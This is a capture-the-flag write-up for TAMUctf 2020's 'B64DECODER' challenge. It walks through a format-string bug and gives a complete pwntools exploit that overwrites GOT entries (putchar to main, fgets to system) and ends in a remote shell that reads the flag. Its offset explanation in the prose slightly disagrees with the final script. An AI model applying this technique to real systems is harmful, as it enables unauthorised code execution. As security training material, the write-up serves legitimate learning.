

# B64DECODER
Binary Explotation, 244 points

## Description
> We put together a demo for our high performance computing server. Why don't you check it out?
> [b64decoder](https://tamuctf.com/files/32412742b28471d2c89ce96b915efbeb/b64decoder) [libc.so.6](https://tamuctf.com/files/240a1adc8a8831820ecb943dfc5b95c3/libc.so.6)

We'll check the binary protections using `checksec` of `pwntools`.

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/B64DECODER_DONE$ checksec b64decoder
[*] '/home/yuvaly0/Desktop/ctf_not_git/2020_tamu/B64DECODER_DONE/b64decoder'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Lets run the program:

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/B64DECODER_DONE$ ./b64decoder 
Base64 is an encoding that represents binary data in ASCII string format.
Each number from 0 to 63 is mapped to an ASCII character.  For example, 'z' is 63
Base64 Decoder: Powered by a64l (0xf7dc18a0)
Enter your name!  
bloop
Welcome, bloop

Please enter input to be decoded: 
bloop
903040103
Please enter input to be decoded: 
bloop
903040103
Please enter input to be decoded: 
^C
```

Were asked to enter our name, after entering the name we enter a loop and are asked to enter a value that will decoded from base64


## Vulnerability

The vulnerability is *format string* In line 23




## Solution

My initial thought about exploiting the program was this:

1. Overwrite a `GOT entrance` with `main function` so we we'll have infinite number of `format string`
2. Leak a libc address, possibly main's return address and calculate libc base
3. Overwrite a `GOT entrance` with a `one gadget` from libc 

However, while writing the exploit I had difficulties with the last stage, it seemed that the payload was too large for the buffer which is 32 bytes :( 

After that i thought some time and got a different plan

1. Overwrite a `GOT entrance` with `main function` so we we'll have infinite number of `format string`
2. Overwrite `fgets` GOT entrance with `system` 

I decided to overwrite `fgets` because her first parameter is the buffer which we control which means we can insert `/bin/sh;` at the start of our payload

Lets start with the first stage

First we need to know which function we intend to overwrite, it cant be before the vulnerable printf, were left with `putchar`

Now we need to get the offset for our buffer, lets debug and put a breakpoint at the call to the vulnerable `printf`

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/B64DECODER_DONE$ gdb -q b64decoder
GEF for linux ready, type `gef' to start, `gef config' to configure
79 commands loaded for GDB 8.1.0.20180409-git using Python engine 3.6
[*] 1 command could not be loaded, run `gef missing` to know why.
Reading symbols from b64decoder...(no debugging symbols found)...done.
gef➤  b* main+201
Breakpoint 1 at 0x804928b
```

Now run the program using `r` and input the buffer with our favorite input `AAAAAAAA` so we'll know the hex charecters to recognize plus the trigger for the vulnerability ` %p %p %p %p %p %p %p %p`

Lets print the stack next 100 words starting from the `esp` using `x/100wx $esp`

```console 
gef➤  x/100wx $esp
0xffffcf60:	0xffffd07c	0x00000020	0xf7fb85c0	0x080491dc --> first thing we leaked -- 0x20
0xffffcf70:	0xf7fdf289	0x0000093c	0xf7de3e54	0xf63d4e2e
0xffffcf80:	0xf7fd0110	0xf7fdf73d	0x00000001	0x00000001
0xffffcf90:	0xf7ded438	0x0000093c	0xf7dedcc8	0xf7fd0110
0xffffcfa0:	0xffffcff4	0xffffcff0	0x00000003	0x00000000
0xffffcfb0:	0xf7ffd000	0xf7dedcc8	0xf7de4012	0xf7ded438
0xffffcfc0:	0xf63d4e2e	0x08048314	0x07b1ea71	0xffffd074
0xffffcfd0:	0xffffcff4	0xf7fd03e0	0x00000000	0x00000000
0xffffcfe0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcff0:	0x00000000	0x00000000	0x000000c2	0x00001fff
0xffffd000:	0xf7fdf409	0xf63d4e2e	0xf7ffdaf8	0xffffd07c
0xffffd010:	0x00000000	0xf7fdff9b	0x08048260	0xffffd07c
0xffffd020:	0xf7ffda9c	0x00000001	0xf7fd0410	0x00000001
0xffffd030:	0x00000000	0x00000001	0xf7ffd940	0x000000c2
0xffffd040:	0x00000000	0x00c30000	0x00000000	0xf7ffd000
0xffffd050:	0x00000000	0x00000000	0x00000000	0x93b1b300
0xffffd060:	0x0000000a	0xffffd304	0xf7e104a9	0xf7fbb748
0xffffd070:	0xf7fb8000	0xf7fb8000	0x00000000	0x41414141  --> our AAAA is 0x41414141
0xffffd080:	0x41414141	0x20702520	0x25207025	0x70252070
0xffffd090:	0x20702520	0x25207025	0x00252070	0x0804934d
0xffffd0a0:	0xffffd0c0	0x00000000	0x00000000	0xf7df8e81
0xffffd0b0:	0xf7fb8000	0xf7fb8000	0x00000000	0xf7df8e81
0xffffd0c0:	0x00000001	0xffffd154	0xffffd15c	0xffffd0e4
0xffffd0d0:	0x00000001	0x00000000	0xf7fb8000	0xf7fe575a
0xffffd0e0:	0xf7ffd000	0x00000000	0xf7fb8000	0x00000000
```

Continue the run using `c` and look at the output

```console
gef➤  c
Continuing.
Welcome, AAAAAAAA 0x20 0xf7fb85c0 0x80491dc 0xf7fdf289 0x93c 0xf7de3e54 0xf63d4e2e
```

So our first and second word are 0x20 and 0xf7fb85c0 respectivley, if well count until our buffer well get 71, so our offset is 71

Now, I decided to overwrite `putchar@got` with `main+68` using `fmtstr` from `pwntools`

```python
buffer_offset = 71
putchar_got = e.got['putchar']
main_address = e.sym['main'] + 68

payload = fmtstr_payload(buffer_offset, {putchar_got: main_address}, write_size='long')
```

Great, now every time we will get to `putchar` we'll jump to main :)

Next we want a payload that will overwrite `fgets@got` with `system` and will start with `/bin/sh;`.

So we know that the start are eight bytes of `/bin/sh;` 

```python
payload = ''
payload += '/bin/sh;'.ljust(8)
```

Next we'll put the address we want to overwrite which is `fgets@got`

```python
fgets_got = e.got['fgets']
payload += p32(fgets_got)
```

Now we'll write data in the size of the address we want to put instead `fgets@got`, Its important to see that we cant partial overwrite in two or three times because we pass by `fgets` in every iteration in the loop we created so if we'll partial overwrite the program will crash

```python
buffer_offset = 76
system = e.sym['system']
payload += '%{}${}p'.format(buffer_offset + 2, system - len(payload))
```

Also important is to see that we already printed some characters so we need to remove them from the size of the address, hence the `system - len(payload)`.

We could have putten every offset at the start, doesn't matter, we added 2 because 77 is the offset of the `/bin/sh` (can be seen threw debugging, like the first time) so + 8 chars(len of /bin/sh) which is 2 words.

Next, the write itself, well put the offset of our address `fgets` that we wrote to the buffer and the specifier `%n`

```python
payload += '%{}$n'.format(buffer_offset)
```

And the payload is ready, on my computer the exploit takes a couple of minutes to finish, because we need to print allot of characters to the screen

```python
from pwn import *
import sys

context.clear(os='linux')

__author__ = 'yuvaly0'

argv = sys.argv
binary_path = './b64decoder'
REMOTE = False
DEBUG = False

if len(argv) > 1:
	if argv[1] == 'remote':
		REMOTE = True
	if argv[1] == 'debug':
		DEBUG = True

if REMOTE:
	sh = remote('challenges.tamuctf.com', 2783)
else:
	sh = process([binary_path])

if DEBUG:
	gdb.attach(sh, '''
		b* main+201
		b* main+206
		''')

e = ELF(binary_path)

# ------------- plan -----------
# overwrite putchar@got with main's address
# overwrite fgets@got with system

# first level
buffer_offset = 71
putchar_got = e.got['putchar']
main_address = e.sym['main'] + 68

log.info('putchar@got: {}'.format(hex(putchar_got)))
log.info('main\'s address: {}'.format(hex(main_address)))
log.info('fgets@got: {}'.format(hex(e.got['fgets'])))
log.info('system: {}'.format(hex(e.sym['system'])))

payload = fmtstr_payload(buffer_offset, {putchar_got: main_address}, write_size='long')
sh.sendlineafter('Enter your name!  \n', payload)

log.progress('Overwriting putchar@got with main+68')

# second level
buffer_offset = 76
system = e.sym['system']
fgets_got = e.got['fgets']

payload = ''
payload += '/bin/sh;'.ljust(8)
payload += p32(fgets_got)
payload += '%{}${}p'.format(buffer_offset + 2, system - len(payload))
payload += '%{}$n'.format(buffer_offset + 2)
sh.sendlineafter('Enter your name!  \n', payload)

sh.interactive()
```

Output:

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/B64DECODER_DONE$ python exploit.py remote
[+] Opening connection to challenges.tamuctf.com on port 2783: Done
[*] '/home/yuvaly0/Desktop/ctf_not_git/2020_tamu/B64DECODER_DONE/b64decoder'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] putchar@got: 0x804b3c0
[*] main's address: 0x8049206
[*] fgets@got: 0x804b3b0
[*] system: 0x8049070
[o] Overwriting putchar@got with main+68

...
...
...

Enter your name!  
$ ls
b64decoder
flag.txt
start.sh
$ cat flag.txt
gigem{b1n5h_1n_b45364?}
```

Flag: `gigem{b1n5h_1n_b45364?}`


